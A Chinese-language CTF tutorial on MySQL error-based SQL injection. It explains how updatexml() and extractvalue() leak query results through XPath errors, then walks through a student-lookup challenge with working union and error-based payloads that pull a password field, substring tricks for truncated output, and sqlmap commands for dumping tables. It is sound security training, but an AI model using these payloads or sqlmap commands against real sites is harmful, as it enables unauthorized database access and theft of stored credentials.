# CTF系列教程：P79：CTF web sql注入入门之报错注入 🧑‍💻

在本节课中，我们将要学习SQL注入中的一种重要技术——报错注入。我们将了解它的基本原理、适用场景，并通过一道简单的CTF题目进行实战演练，帮助你掌握这种在无法使用联合查询时的替代方法。

## 什么是报错注入？🤔

上一节我们介绍了联合查询注入，本节中我们来看看报错注入。报错注入是SQL注入的一种。它通常在无法使用`UNION`联合查询时使用。当然，即使可以使用联合查询，你仍然可以选择使用报错注入，但这就像有直达公交却非要多次换乘地铁一样，是一种绕远路的方法。

按照常规思路，报错注入是在“捷径”（联合查询）无法直达时，才考虑的“换乘”方案。

## 报错注入的核心条件 🔑

使用报错注入需要满足两个核心条件：
1.  不能过滤一些关键的函数。
2.  需要有**报错回显**。即页面会将数据库的报错信息显示出来。

以下是关于报错回显的说明：
例如，执行一个错误的SQL语句，如`LIMIT 0,`（后面缺少参数），数据库会返回一个语法错误。报错注入的目的就是**人为构造一个错误**，并且让这个错误的日志信息中包含我们想要查询的数据结果。

## 报错注入的常见函数与原理 ⚙️

在MySQL中，`updatexml()`和`extractvalue()`是常用于报错注入的两个函数。





`updatexml()`函数用于更新XML文档中符合XPath条件的节点值。它的语法是：
```sql
UPDATEXML(XML_document, XPath_string, new_value)
```
`extractvalue()`函数则用于从XML文档中提取值。它的语法是：
```sql
EXTRACTVALUE(XML_document, XPath_string)
```

报错注入的原理是：**故意给这两个函数的第二个参数（本应是XPath路径）传入一个非法的XPath格式字符串**。当数据库尝试解析这个非法XPath时就会报错。如果我们在这个非法字符串中拼接了我们想要执行的SQL查询结果，那么这个结果就会出现在报错信息中。



以下是构造报错注入的典型Payload格式：
```sql
AND updatexml(1, concat(0x7e, (SELECT user()), 0x7e), 1)
```
或
```sql
AND extractvalue(1, concat(0x7e, (SELECT database())))
```
其中，`0x7e`是波浪线`~`的十六进制表示，它确保传入的字符串一定不是合法的XPath格式，从而触发报错。`concat()`函数则将波浪线与我们的查询结果拼接在一起。

## 实战演练：一道简单的CTF题目 🎯



接下来我们通过一道CTF题目来实践报错注入。题目是一个学生信息查询系统，输入学号即可查询学生信息。

### 第一步：识别注入点

首先，我们观察到查询参数`sID`是通过GET方法传递的。
```
?sID=2019122001
```
我们在参数值后添加一个单引号`‘`，页面返回了详细的SQL语法错误信息，这证实了此处存在SQL注入漏洞，并且是字符型注入。

为了进一步确认，我们可以使用经典的`1‘ and ‘1‘=‘1`和`1‘ and ‘1‘=‘2`进行测试，观察页面返回结果是否不同。

### 第二步：使用联合查询（对比）

在尝试报错注入前，我们先使用更直接的联合查询来获取信息，以便对比。

1.  **判断列数**：使用`ORDER BY`语句。当`ORDER BY 4`时页面错误，`ORDER BY 3`时正常，说明当前查询结果有3列。
2.  **寻找回显点**：使用`UNION SELECT 1,2,3`，并让原查询不返回结果（例如传入一个不存在的学号），可以发现页面中显示了数字2和3，说明第2、3列是回显点。
3.  **获取数据**：利用回显点，逐步获取数据库名、表名、列名和最终数据（flag）。
    *   获取当前数据库名：`... UNION SELECT 1, database(), 3 ...`
    *   获取表名：`... UNION SELECT 1, group_concat(table_name), 3 FROM information_schema.tables WHERE table_schema=database() ...`
    *   获取指定表的列名：`... UNION SELECT 1, group_concat(column_name), 3 FROM information_schema.columns WHERE table_schema=database() AND table_name=‘teacher‘ ...`
    *   获取数据：`... UNION SELECT 1, card_password, 3 FROM teacher ...`

### 第三步：使用报错注入

现在，我们使用报错注入来达到同样的目的。

我们使用`extractvalue()`函数来构造Payload，获取`teacher`表中的`card_password`字段：
```
?sID=2019‘ AND extractvalue(1, concat(0x7e, (SELECT card_password FROM teacher), 0x7e))--+
```
执行后，页面返回了报错信息，但发现`card_password`的值（即flag）很长，没有完全显示在报错信息中。

### 第四步：处理长数据截断

当报错信息因数据过长被截断时，我们可以使用`substring()`或`substr()`函数进行分段截取。



例如，从第15个字符开始截取：
```
?sID=2019‘ AND extractvalue(1, concat(0x7e, substring((SELECT card_password FROM teacher), 15), 0x7e))--+
```
通过调整截取的起始位置，我们可以逐步获取到完整的flag数据。



### 拓展：使用SQLmap自动化工具

除了手动注入，我们还可以使用`sqlmap`自动化工具来快速完成注入过程。基本命令如下：
*   探测数据库：`sqlmap -u “目标URL” --dbs`
*   探测当前数据库：`sqlmap -u “目标URL” --current-db`
*   列出指定数据库的所有表：`sqlmap -u “目标URL” -D 数据库名 --tables`
*   列出指定表的所有列：`sqlmap -u “目标URL” -D 数据库名 -T 表名 --columns`
*   导出指定表的所有数据：`sqlmap -u “目标URL” -D 数据库名 -T 表名 --dump`





## 总结 📝





本节课中我们一起学习了SQL注入中的报错注入技术。



我们首先了解了报错注入的应用场景——作为联合查询的替代方案。然后，我们学习了其核心原理：利用`updatexml()`或`extractvalue()`等函数对非法XPath路径进行解析时产生的错误，并将我们想要查询的SQL语句结果拼接到报错信息中。最后，我们通过一道CTF题目进行了完整的实战演练，从识别注入点到使用报错注入获取数据，并学会了如何处理报错信息中的数据截断问题。



记住，报错注入的关键在于**构造能触发错误并回显查询结果的Payload**。掌握这一技术，将使你在CTF比赛中面对不同类型的SQL注入题目时更加游刃有余。